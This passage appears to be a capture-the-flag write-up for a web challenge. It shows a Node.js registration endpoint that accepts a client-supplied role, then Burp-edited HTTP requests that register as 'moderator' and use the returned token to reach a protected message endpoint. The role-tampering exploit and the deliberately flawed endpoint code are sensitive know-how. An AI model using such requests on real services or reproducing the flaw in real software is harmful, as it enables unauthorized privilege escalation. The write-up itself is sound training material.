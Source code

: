 Looking at the registration endpoint in further depth:
```js
app.post('/api/register', (req, res) => {

    const existingUser = users.find(u => u.username == req.body.username);
    if(existingUser)
        return res.status(400).send('User already exists');

    if(req.body.role?.toLowerCase() == 'admin')
        return res.status(400).send('Invalid role');

    const user = {
        username: req.body.username.substring(0, 20),
        password: req.body.password.substring(0, 20),
        token: crypto.randomBytes(32).toString('hex'),
        role: req.body.role.substring(0, 20) || 'user'
    }

    users.push(user);

    res.json(user);
})
```

We can specify our role and if we don't it defaults to `user`.

## Flag 1

Can we get the first flag by specifying the `moderator` role and privilege escalate to above `user`? This would be a RBAC issue and give us the flag!

Let's use Burp Suite to capture a registration request and modify it:
```
POST /api/register HTTP/2
Host: escatlate-52bc47e034fa.1753ctf.com
Accept: */*
Content-Type: application/json
Content-Length: 70

{"username":"sealldevmod","password":"sealldevmod","role":"moderator"}
```

In this case we modified the role to `moderator`, and the application responds with our token:

```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8

{"username":"sealldevmod","password":"sealldevmod","token":"9ed37e9b1007e71de705b9e4315fc866cabd4250d78eb2f7fe197a5d3dc14e22","role":"moderator"}
```

We can then login with the creds `sealldevmod:sealldevmod` and retrieve the flag from `/api/message`:
```
GET /api/message HTTP/2
Host: escatlate-52bc47e034fa.1753ctf.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
X-Token: 9ed37e9b1007e71de705b9e4315fc866cabd4250d78eb2f7fe197a5d3dc14e22
```
